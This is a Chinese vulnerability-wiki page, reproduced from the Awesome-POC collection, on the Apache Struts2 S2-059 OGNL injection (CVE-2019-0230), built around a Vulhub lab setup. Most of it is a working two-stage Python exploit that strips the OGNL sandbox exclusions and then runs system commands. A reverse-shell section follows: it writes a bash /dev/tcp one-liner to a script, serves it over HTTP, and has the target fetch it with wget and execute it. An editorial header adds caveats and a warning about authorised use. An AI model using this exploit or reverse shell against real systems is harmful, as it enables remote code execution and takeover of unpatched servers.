



# Apache Struts2 S2-059 远程代码执行漏洞 CVE-2019-0230

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：2.0.0–2.5.20，标签强制求值且输入可控；测试2.5.16，两请求同进程共享OGNL配置
- 证据范围：先清除限制再执行的两阶段PoC与引用链对应；11776仅作为gadget来源而非本篇漏洞入口。

### 本次正文校订

- 按实际内容修正 3 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 缺危险标签模板本身，不能只看id参数就假设任意应用受影响
- 第一阶段改变共享排除集合可能影响整个进程，需副作用和恢复说明
- 双请求缺状态/内容检查，负载均衡不同节点时条件不成立
- 末尾反弹只给命令未完整说明替换步骤，缺修复版本及禁止不可信强制求值建议

### 操作风险与资料使用

- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

Apache Struts 框架, 会对某些特定的标签的属性值，比如 id 属性进行二次解析，所以攻击者可以传递将在呈现标签属性时再次解析的 OGNL 表达式，造成 OGNL 表达式注入。从而可能造成远程执行代码。

参考链接：

- https://cwiki.apache.org/confluence/display/WW/S2-059
- https://securitylab.github.com/research/ognl-apache-struts-exploit-CVE-2018-11776

## 漏洞影响

影响版本: Struts 2.0.0 - Struts 2.5.20

## 环境搭建

Vulhub 执行以下命令启动 Struts 2.5.16 s2-059 测试环境：

```shell
docker-compose build
docker-compose up -d
```

启动环境之后访问 `http://your-ip:8080/?id=1` 就可以看到测试界面

## 漏洞复现

访问 `http://your-ip:8080/?id=%25%7B233*233%7D`，可以发现 233*233 的结果被解析到了 id 属性中：



《[OGNL Apache Struts exploit: Weaponizing a sandbox bypass (CVE-2018-11776)](https://securitylab.github.com/research/ognl-apache-struts-exploit-CVE-2018-11776)》给出了绕过 struts2.5.16 版本的沙盒的 poc，利用这个 poc 可以达到执行系统命令。

通过如下 Python 脚本复现漏洞：

```python
import requests

url = "http://192.168.174.128:8080"
data1 = {
    "id": "%{(#context=#attr['struts.valueStack'].context).(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames(''))}"
}
data2 = {
    "id": "%{(#context=#attr['struts.valueStack'].context).(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('touch /tmp/awesome_poc'))}"
}
res1 = requests.post(url, data=data1)
# print(res1.text)
res2 = requests.post(url, data=data2)
# print(res2.text)
```

执行 poc 之后，进入容器发现 `touch /tmp/awesome_poc` 已成功执行。



### 反弹 shell

编写 shell 脚本并启动 http 服务器：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

上传 shell.sh 文件的命令为：

```shell
wget 192.168.174.128/shell.sh
```

执行 shell.sh 文件的命令为：

```shell
bash shell.sh
```

成功接收反弹 shell：




---

> 来源：Threekiii/Awesome-POC
